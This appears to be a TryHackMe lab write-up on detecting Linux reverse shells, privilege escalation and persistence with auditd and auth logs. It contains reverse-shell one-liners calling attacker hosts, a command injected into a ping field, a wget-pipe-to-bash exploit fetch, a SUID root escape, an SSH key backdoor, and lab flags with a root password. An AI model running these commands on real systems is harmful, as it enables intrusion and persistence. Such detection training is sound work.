



# Linux Threat Detection 3

## Overview

This investigation focused on detecting Linux post-compromise activity related to **Command and Control (C2)**, **Privilege Escalation**, and **Persistence** using auditd and authentication logs.

The investigation covered the following areas:

* Reverse Shells
* Privilege Escalation
* Startup Persistence
* Account Persistence
* Backdoored SSH Keys

---

# Reverse Shells

## Reverse Shells

Threat actors can establish a reverse shell, creating a session from the victim to the attacker. This can provide a convenient way to continue an attack after initial access.

Some common methods of opening a reverse shell on Linux include:

| Command on the Victim | Explanation |
| --- | --- |
| `bash -i >& /dev/tcp/10.10.10.10/1337 0>&1` | The victim is forced to connect to `10.10.10.10:1337` and launch `bash` for the attacker. |
| `socat TCP:10.20.20.20:2525 EXEC:'bash',pty,stderr,setsid,sigint,sane` | Socat alternative to the above command. The attacker is listening at `10.20.20.20:2525`. |
| `python3 -c '[...] s.connect(("10.30.30.30",80));pty.spawn("bash")'` | Python alternative to the above command. The attacker is listening at `10.30.30.30:80`. |

### Investigation

The TryPingMe scenario was investigated using the VM and auditd logs:

```text
http://10.80.165.100:8000
ausearch -i -if /home/ubuntu/scenario/audit.log
```

### Finding 1: TryPingMe User

The command `127.0.0.1 && whoami` was executed in the TryPingMe web application.

| Artifact | Value |
| --- | --- |
| Command | `127.0.0.1 && whoami` |
| Output | `svctrypingme` |

The command returned the user `svctrypingme` after the ping results.

### Finding 2: Reverse Shell

A reverse shell was spawned using the following command:

```text
127.0.0.1 && socat TCP:attacker.thm:1337 EXEC:sh
```

| Artifact | Value |
| --- | --- |
| Flag | `THM{revshells_practitioner!}` |

The TryPingMe response returned the flag `THM{revshells_practitioner!}`.

### Finding 3: Reverse Shell Source IP

The exported auditd logs were examined to identify a similar reverse shell spawned through the TryPingMe application.

| Artifact | Value |
| --- | --- |
| Source IP | `10.14.105.255` |

---

# Privilege Escalation

## Privilege Escalation Basics

Initial access does not always provide full system access. Web attacks and exploits can initially run under low-privilege service accounts, restricting attackers to locations such as `/var/www/html` or preventing them from downloading and executing malware.

Threat actors may therefore use privilege escalation techniques to obtain root access.

| Preceding Discovery (IF) | Privilege Escalation (THEN) |
| --- | --- |
| `uname -a` shows an old, unpatched Ubuntu 16.04 | Run an exploit such as PwnKit: `wget http://bad.thm/pwnkit.sh \| bash` |
| `find /bin -perm 4000` detects an `env` binary with the SUID flag | Use the SUID vulnerability to get root access: `/bin/env /bin/bash -p` |
| `ls /etc/ssh` exposes an unprotected `ssh-backup-key` file | Try using the file to get root access: `ssh root@127.0.0.1 -i ssh-backup-key` |

### Investigation

The TryPingMe scenario was investigated using the auditd logs:

```text
ausearch -i -if /home/ubuntu/scenario/audit.log
```

### Finding 1: Password Discovery

The command used to search for the keyword `pass` in files was:

```text
grep -iR pass .
```

### Finding 2: Privilege Escalation

The command used to escalate privileges to root was:

```text
su root
```

### Finding 3: Root Password

The detected `.env` file contained the root password.

| Artifact | Value |
| --- | --- |
| Root Password | `nGql1pQkGa` |



---

# Startup Persistence

## Detecting Persistence

Attackers can establish persistence so that malware survives system reboots.

Cron jobs and systemd services are defined as text files, making their modification detectable through auditd. Persistence can also be detected by tracking processes used to manage cron jobs and systemd services.

| Detection Area | Locations / Processes |
| --- | --- |
| Monitor changes in cron job files | `/etc/crontab`, `/etc/cron.d*`, `/var/spool/cron/*`, `/var/spool/crontab/*` |
| Monitor changes in systemd folders | `/lib/systemd/system/*`, `/etc/systemd/system/*`, and less common locations |
| Monitor related processes | `nano /etc/crontab`, `crontab -e`, `systemctl start|enable <service>` |

### Investigation

Auditd logs were used to detect two persistence methods:

```text
ausearch -i
```

### Finding 1: Service Persistence

The malware persisted as a service.

| Artifact | Value |
| --- | --- |
| Flag | `THM{hidden_penguin!}` |



### Finding 2: Cron Persistence

The malware persisted as a cron job.

| Artifact | Value |
| --- | --- |
| Flag | `THM{ressurect_on_reboot!}` |



---

# Account Persistence

## Account Persistence

Startup persistence allows malware to survive a reboot, but attackers can also maintain access without leaving malware on the system.

One method is creating a new user account, adding it to a privileged group, and using the account for future SSH logins.

## New User Account

If SSH is exposed, attackers may create a new user account and add it to a privileged group.

Authentication logs can be used to detect user creation, while auditd can help reconstruct the associated process tree.

Example authentication log:

```text
root@thm-vm:~$ cat /var/log/auth.log | grep -E 'useradd|usermod'
2025-09-18T15:46:30 thm-vm useradd[27254]: new group: name=support, GID=1001
2025-09-18T15:46:30 thm-vm useradd[27254]: new user: name=support, UID=1001, GID=1001, home=/home/support, shell=/bin/bash
2025-09-18T15:46:32 thm-vm usermod[27258]: add 'support' to group 'sudo'
2025-09-18T15:46:32 thm-vm usermod[27258]: add 'support' to shadow group 'sudo'
```

## Backdoored SSH Keys

Attackers can also backdoor SSH keys and use them for future logins instead of passwords.

A malicious key can be difficult to identify because it can appear similar to legitimate SSH keys.

Example:

```text
# Adding SSH backdoor to the authorized_keys
root@thm-vm:~$ echo "AAAAC3Nza...IkiINvQt/R" >> ~/.ssh/authorized_keys

# It's hard to guess which key is a backdoor!
root@thm-vm:~$ cat ~/.ssh/authorized_keys
ssh-ed25519 AAAAC3Nza...oh5fpNy1Gi # Legitimate key
ssh-ed25519 AAAAC3Nza...N9a2UYsFpQ # Legitimate key
ssh-ed25519 AAAAC3Nza...IkiINvQt/R # Backdoor key
```

### Investigation

Auditd and authentication logs were used to detect a backdoored user and SSH key persistence.

### Finding 1: Backdoored User

The following command was used to identify user creation and modification events:

```text
cat /var/log/auth.log | grep -E 'useradd|usermod'
```

| Artifact | Value |
| --- | --- |
| Created User | `koichi` |
| Privileged Group | `sudo` |

The user `koichi` was created and added to the `sudo` group.

### Finding 2: SSH Key Persistence

| Artifact | Value |
| --- | --- |
| Modified File | `/root/.ssh/authorized_keys` |

The file `/root/.ssh/authorized_keys` was changed to allow SSH key persistence.

---

# Key Findings

| Investigation Area | Finding |
| --- | --- |
| Reverse Shell User | `svctrypingme` |
| Reverse Shell Source IP | `10.14.105.255` |
| Reverse Shell Flag | `THM{revshells_practitioner!}` |
| Password Search Command | `grep -iR pass .` |
| Privilege Escalation Command | `su root` |
| Root Password | `nGql1pQkGa` |
| Service Persistence Flag | `THM{hidden_penguin!}` |
| Cron Persistence Flag | `THM{ressurect_on_reboot!}` |
| Backdoored User | `koichi` |
| SSH Persistence File | `/root/.ssh/authorized_keys` |

---

# Skills Demonstrated

* Linux Threat Detection
* Reverse Shell Detection
* Auditd Log Analysis
* Systemd Service Persistence Detection
* Account Persistence Detection
* Backdoored User Detection
* SSH Key Persistence Detection
* Authentication Log Analysis
* SOC Investigation and Triage
